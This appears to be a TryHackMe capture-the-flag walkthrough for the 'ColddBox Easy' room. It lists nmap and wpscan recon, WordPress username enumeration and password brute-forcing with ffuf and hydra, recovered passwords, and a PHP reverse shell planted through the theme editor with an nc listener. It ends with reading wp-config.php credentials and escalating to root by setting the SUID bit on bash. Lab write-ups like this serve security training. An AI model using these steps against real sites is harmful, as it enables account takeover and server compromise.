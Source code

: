 ```http
https://tryhackme.com/room/colddboxeasy
```

```ip
10.10.145.74
```
___
# Recon
## Nmap
```bash
sudo nmap -p- -sC -sV -T5 -Pn 10.10.145.74 -vv
```

```resoults
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.1.31
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: ColddBox | One more machine
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web
### Endpoints
```http
http://10.10.145.74/?feed=comments-rss2
http://10.10.145.74/?p=1#comments
http://10.10.145.74/wp-login.php
```

### WPscan
```bash
wpscan --url http://10.10.145.74/
```

```resoults
Server: Apache/2.4.18 (Ubuntu)
WordPress version 4.1.31 identified
WordPress theme in use: twentyfifteen
```
___
### Check users wordpress
```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=FUZZ&pwd=invalidpassword&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -mc all -fs 3408
```

```resoult
philip
hugo
c0ldd
```

### Bruteforse password's
```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=philip&pwd=FUZZ&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/rockyou.txt -mc 200,302 -fs 3455
```

```resoults
panda
```

```bash
hydra -l hugo -P /usr/share/wordlists/rockyou.txt 10.10.145.74 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:F=incorrect" \
-t 64 -V -f
```

```resoults
[80][http-post-form] host: 10.10.145.74   login: hugo   password: 147852
```

```bash
ffuf -u "http://10.10.145.74/wp-login.php" -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Cookie: wordpress_test_cookie=WP+Cookie+check" \
-d "log=c0ldd&pwd=FUZZ&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1" \
-w /usr/share/wordlists/rockyou.txt -mc 200,302 -fs 3453
```

```bingo
[80][http-post-form] host: 10.10.145.74   login: *****   password: **********
```
___
# RCE
In wordpress account need add php revers shell in Appearance -> Edit Themes
I use index.php
```http
https://www.revshells.com/
```

```bash
nc -lnvp 1337
```

```http
curl http://10.10.145.74/index.php
```
___
# LPE
```bash
cat wp-config.php
```

```resoults
/** MySQL database username */
define('DB_USER', '*****');

/** MySQL database password */
define('DB_PASSWORD', '************');
```
## SSH

> [!important]
> 4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)

```bash
ssh *****@10.10.145.74
```

```bash
sudo -l 
```

```resoults
El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```

```bash
sudo -u root /bin/chmod u+s /bin/bash
```

```bash
cat /root/root.txt
```

